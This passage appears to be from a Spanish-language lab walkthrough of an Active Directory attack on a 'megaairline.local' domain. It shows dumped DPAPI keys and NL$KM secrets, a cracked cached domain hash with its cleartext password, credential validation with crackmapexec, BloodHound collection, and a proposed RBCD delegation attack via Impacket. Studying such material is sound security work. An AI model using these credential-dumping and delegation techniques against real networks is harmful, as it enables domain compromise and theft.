 ```bash
SMB         ms01.megaairline.local 445    MS01             dpapi_machinekey:0x487772fbffedccd08b08239af25f7c42a0c2ab76
dpapi_userkey:0x36cbede3241336b34893574f96c27a7411f18a6c
SMB         ms01.megaairline.local 445    MS01             NL$KM:33eb2a1da2aff443ecaf9f474df4857987a84e71648fd00f94e3041305cdda929bd1eb02ea266e4b0e77996a29737c20d1767bb63e7f42cf108aaa01d849883d
```

```bash
❯ john -w:passwords hashes
Warning: detected hash type "mscash2", but the string is also recognized as "HMAC-MD5"
Use the "--format=HMAC-MD5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (mscash2, MS Cache Hash 2 (DCC2) [PBKDF2-SHA1 128/128 XOP 4x2])  
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate left, minimum 16 needed for performance.
FWErfsgt4ghd7f6dwx (MEGAAIRLINE.LOCAL/anna)
Use the "--show --format=mscash2" options to display all of the cracked passwords reliably
Session completed.
```

Después de verificar las credenciales con crackmapexec, confirmamos que son válidas a nivel de dominio.

```bash
❯ crackmapexec smb dc2.megaairline.local -u anna -p FWE**************d7f6dwx
SMB         megaairline.local 445    DC2              [*] Windows 10.0 Build 17763 x64 (name:DC2) (domain:megaairline.local) (signing:True) (SMBv1:False)  
SMB         megaairline.local 445    DC2              [+] megaairline.local\anna:FWErfsgt4ghd7f6dwx
```

Después de subir el archivo zip a Bloodhound, realizamos la enumeración partiendo del usuario "anna". Descubrimos que este usuario tiene privilegios de GenericAll sobre el equipo DC2, lo que significa que podría ser vulnerable a un ataque RBCD (Resource-Based Constrained Delegation). Este tipo de ataque puede ser llevado a cabo utilizando herramientas como Impacket, donde se crea una cuenta de equipo con "addcomputer" y luego se configura la delegación con "rbcd".

```bash
❯ bloodhound-python -u anna -p FWEr**************6dwx -ns 192.168.11.201 -d megaairline.local -c All --zip  
INFO: Found AD domain: megaairline.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc2.megaairline.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 4 computers
INFO: Connecting to LDAP server: dc2.megaairline.local
INFO: Found 12 users
INFO: Connecting to GC LDAP server: dc2.megaairline.local
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: MS01.megaairline.local
INFO: Querying computer: DC2.megaairline.local
INFO: Done in 00M 33S
INFO: Compressing output into 20230901014306_bloodhound.zip
```
